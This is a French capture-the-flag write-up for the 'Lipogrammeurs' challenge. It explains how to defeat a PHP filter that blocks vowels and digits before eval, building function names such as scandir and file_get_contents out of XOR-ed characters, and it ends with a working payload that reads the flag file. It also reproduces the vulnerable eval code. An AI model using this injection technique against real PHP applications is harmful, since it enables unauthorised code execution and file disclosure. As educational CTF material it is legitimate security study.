 # Lipogrammeurs - 200

## Description

`Vous avez trouvé cette page qui vous semble étrange. Pouvez-vous nous convaincre qu'il y a effectivement un problème en retrouvant le flag présent sur le serveur ?`

## Solution

La page principale contient un script php :

```php
if (isset($_GET['code'])) {
    $code = substr($code, 0, 250);
    if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
        print($code);
        die('No way! PREG');
    } else {
        try {
            print($code);
            eval($code);
        } catch (ParseError $e) {
            die('No way! Go PARSE!');
        }
}
```

On veut donc faire évaluer le contenu de notre variable _code_, ainsi on pourra chercher le flag sur le serveur.

Pour cela nous devons réussir à passer la condition :

```php
preg_match('/a|e|i|o|u|y|[0-9]/i', $code)
```

Notre variable _code_ ne doit donc pas contenir de voyelles ni de chiffres, ce qui n'est pas très pratique si l'on veut dénicher le flag. Il faut donc trouver un moyen de passer outre.

Pour cela on va utiliser des particularités du langage php à notre avantage :

-   XORer deux caractères pour en obtenir un troisième.
-   Passer une variable sans l'avoir définie au préalable, car php estimera alors qu'il s'agit implicitement d'un string.

Préparons notre payload à l'aide de XORs :

```php
php > print_r(scandir("."));
Array
(
    [0] => .
    [1] => ..
    [2] => .git
)
php > $a = 'pr'.("!"^"H").'nt_r(sc'.("?"^"^").'nd'.("!"^"H").'r("."));';
php > eval($b);
Array
(
    [0] => .
    [1] => ..
    [2] => .git
)
```

Mais on ne passe finalement pas le test :

```php
php > print_r(preg_match('/a|e|i|o|u|y|[0-9]/i', $a));
1
php > echo $a;
print_r(scandir("."));
```

En effet, en utilisant XOR on peut retrouver les caractères qui nous sont interdits, mais pour passer la condition, il ne faut pas que les XORs soient interprétés avant la fonction `preg_match`.

Il faut donc contourner ce problème (d'où l'intérêt de la seconde particularité énoncée ci-avant) :

```php
php > $b = "(pr.('!'^'H').nt_r)((sc.('?'^'^').nd.('!'^'H').r)('.'));";
php > echo $b;
(pr.('!'^'H').nt_r)((sc.('?'^'^').nd.('!'^'H').r)('.'));
php > print_r(preg_match('/a|e|i|o|u|y|[0-9]/i', $b));
0
```

On arrive bien a contourner le test, mais qu'en est-il de la fonction `eval` ?

```php
php > eval($b);
#PHP Warning:  Use of undefined constant pr - assumed 'pr' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant nt_r - assumed 'nt_r' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant sc - assumed 'sc' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant nd - assumed 'nd' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
#PHP Warning:  Use of undefined constant r - assumed 'r' (this will throw an Error in a future version of PHP) in php shell code(1) : eval()'d code on line 1
Array
(
    [0] => .
    [1] => ..
    [2] => .git
```

Impeccable ! En effet, à l'évaluation php estime que nos constantes non définies sont des strings, il s'occupe alors d'y concatener les XORs (cette fois évalués), ce que nous permet d'injecter notre payload.

On vérifie :

![lipo1](./Images/lipogrammeurs_1.PNG)

Nous avons fait le plus dur, reste désormais à récupérer le flag à l'aide de la payload suivante :

```php
(pr.('!'^'H').nt_r)((f.('!'^'H').l.('^'^';')._g.('^'^';').t_c.('!'^'N').nt.('^'^';').nts)((sc.('?'^'^').nd.('!'^'H').r)('.')[('B'^'p')]));
# print_r(file_get_contents(scandir('.')[2]))
```

Aurions-nous eu tout faux ?

![lipo2](./Images/lipogrammeurs_2.PNG)

On se rappelle que le flag était un fichier php, une inspection des sources aura tôt fait de nous rassurer :

![lipo3](./Images/lipogrammeurs_3.PNG)

[Retour à l'accueil.](./index.md)

